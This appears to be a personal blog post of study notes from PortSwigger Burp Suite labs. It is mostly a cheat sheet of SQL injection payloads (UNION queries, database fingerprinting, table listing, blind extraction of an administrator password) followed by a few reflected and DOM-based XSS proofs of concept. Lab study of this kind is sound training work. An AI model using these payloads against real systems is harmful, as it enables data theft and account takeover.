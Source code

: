 ```yaml
---
title: BurpSuite Lab
author: Yuchao
date: 2022-05-10 11:33:00 +0800
categories: [sec]
tags: [burpsuite]
math: true
mermaid: true
---
```


# sql injection

#### cheetsheet
<https://portswigger.net/web-security/sql-injection/cheat-sheet>

```sql
'+OR+1=1--
'+UNION+SELECT+NULL,NULL--

-- find columns are compatible with string data
'+UNION+SELECT+'abcdef',NULL,NULL--

-- oracle, find database type and version
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

-- mysql, find database type and verion
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version,+NULL#

-- list database contents, not oracle
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--

-- list database contents, oracle
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--

-- blind, conditional responses
-- "Welcome back" message disappears if error
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

```

# Cross-site scripting

#### Reflected XSS
- url ``` web-security-academy.net/?search=<script>alert%281%29<%2Fscript> ```
- ``` <script> alert(1) </script>```

#### dom based
- as the input writes out to the page, by using document.write function by site.
- search "asdf"
```
<img src="/resources/images/tracker.gif?searchTerms=asdf">

<img src="/resources/images/tracker.gif?searchTerms=asdf" <svg="" onload="alert(1)">
```

